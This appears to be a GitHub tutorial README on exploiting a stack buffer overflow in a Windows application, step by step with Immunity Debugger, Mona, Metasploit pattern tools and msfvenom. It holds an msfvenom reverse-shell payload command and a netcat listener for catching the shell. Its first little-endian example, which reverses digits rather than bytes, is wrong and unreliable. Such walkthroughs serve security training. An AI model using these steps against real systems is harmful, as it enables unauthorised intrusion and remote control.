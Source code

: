 # Buffer Overflow

[1. Quick Setup](#quick-setup)

[2. Fuzz the Application](#fuzz-the-application)
  
[3. Replicating the Crash and Controlling EIP](#replicating-the-crash-and-controlling-eip)

[4. Find Bad Characters](#finding-bad-characters)

[5. Find the Jump Point](#find-the-jump-point) 

[6. Generate the Payload](#generate-the-payload)

[7. Exploit](#exploit)

## Quick Setup

Set a working directory for Mona from teh Immunity Debugger. Run the following command from the command line in Immunity Debugger

<code>!mona config -set workingfolder c:\mona\%p</code>

![alt-text](.src/Mona_Command.png)

## Fuzz the Application

Launch Immunity Debugger as Administrator, and use the "File -> Open" command to bring up the vulnerable application. Notice that this does not run the aplication, it still needs to be executed.  

![alt-text](.src/Paused_State.png)

Click the red play button at the top of the window to execute the file

![alt-text](.src/Running_State.png)

Use the program located [here](fuzzer.py) to fuzz the application. It will send strings to the application incrementing by 100 characters each time until the app crashes or it reaches a string of length 3000.

<code>python fuzzer.py</code>

![alt-text](.src/Fuzzing.png)

Make note of when the script stops/the application crashes and the length of the string that caused the crash.

## Replicating the Crash and Controlling EIP

Use the program located [here](exploit.py) (This is the base script, we will modify it as needed with the information we acquire during the assessment of the application)

Note: that the prefix variable will need to be changed to account for whatever initial option the applications takes.

We then need to generate a string of the length of the string that crashed the application + 400. In our case, the application crashed after the 2000 string, so we will generate our string to be size 2400

<code>/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400</code>

![alt-text](.src/Crash_String.png)

Copy this output to the "payload" field in the exploit.py script

Restart the application in the Immunity Debugger and run the exploit.py script.

<code>python exploit.py</code>

The app should crash again, run the following command in Immunity Debugger:

<code>!mona findmsp -distance 2400</code>

Note that we use the same length as the pattern we created earlier.

Mona will display a window with some output in the form of:

> EIP contains normal pattern: ... (offset XXXX)

![alt-text](.src/EIP_Offset.png)

We will then need to update our exploit.py script and set the offset variable to the value of the offset. 

Set the retn variable to "BBBB"

Set the payload back to an emptry string

Restart the application in Immunity Debugger and rerun the exploit.py script.

We should see the EIP register is now 42424242 (BBBB)

![alt-text](.src/EIP_Overwritten.png)

## Finding Bad Characters

We will generate a bytearray with Mona (Excluding the "\x00" character). Run the following command in Imunity Debugger

<code>!mona bytearray -b "\x00"</code>

Then, generate a string of bad characters that is identical to the bytearray. Use the python code [here](byte_array.py).

![alt-text](.src/Byte_Array.png)

Update the payload variable in the exploit.py file with the byte array generated from the python code.

Restart the application and run the exploit.py script again.

Use the following command to print the differences between the bytearray and the values in memory

<code>!mona compare -f C:\path\to\array\bytearray.bin -a [ESP ADDRESS]</code>

![alt-text](.src/Bad_Chars.png)

Note: Not every character in the output will be a bad character, we will remove them from the generated bytearray one at a time.

<code>!mona bytearray -b "\x00\xXX\xXX"</code>

Remove these same characters from the payload in exploit.py

Restart the application and rerun the exploit.py file until Mona returns "Unmodified", this lets us know there are no bad characters left.

Note: Keep a file of these bad characters, you will need them to find the jump point.

![alt-text](.src/Unmodified.png)

## Find the Jump Point

While the application is crashed or running run the following Mona command in Immunity Debugger with the list of bad caracters found in the previous steps

<code>!mona jmp -r esp -cpb "\x00\xXX\xXX"</code>

This should bring up a window that will have several addresses to several "jmp esp" memory locations.

![lt-text](.src/Jump_Addresses.png)

Pick an address and update the retn variable in the exploit.py file. 

Note: Keep in mind the architecture of the host. If the host is running in little endian, then the address needs to be written backwards (i.e. if the address is 123456 then the little endian address would be 654321). Convert the address to HEX by adding a "\x" before every two characters (i.e. if the address is 123456 then the HEX version would be \x12\x34\x56). If we are running in little endian then the final address would be "\x56\x34\x12".

![alt-text](.src/Little_Endian.png)

## Generate the Payload

Use <code>msfvenom</code> to generate shellcode.

<code>msfvenom -p windows/shell_reverse_tcp LHOST=[YOUR_IP] LPORT=443 EXITFUNC=thread -b "[BAD_CHARACTERS]" -f py</code>

Copy the output to the payload variable in the exploit.py file

Note: The msfvenom command outputs the shellcode under the name buf = "...", make sure to change the name to payload before executing the script.

Add some space to allow the shellcode to unpack by setting the padding variable to:

<code>padding = "\x90" * 16</code> 

## Exploit

Setup a netcat listener 

<code>nc -lnvp 443</code>

Restart the application and run exploit.py, and we should catch a shell.
